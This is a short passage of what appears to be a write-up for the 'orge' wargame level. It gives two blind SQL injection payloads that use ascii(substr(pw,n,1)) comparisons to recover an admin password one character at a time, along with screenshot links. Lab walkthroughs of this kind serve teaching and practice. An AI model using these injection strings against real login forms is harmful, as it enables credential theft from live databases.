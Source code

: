 * 6

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,4,1))=54#'`

<img src="./img/orge5.png" width="700">

* 4

`select id from prob_orge where id='guest' and pw='' || id='admin' && ascii(substr(pw,5,1))=52#'`

<img src="./img/orge6.png" width="700">
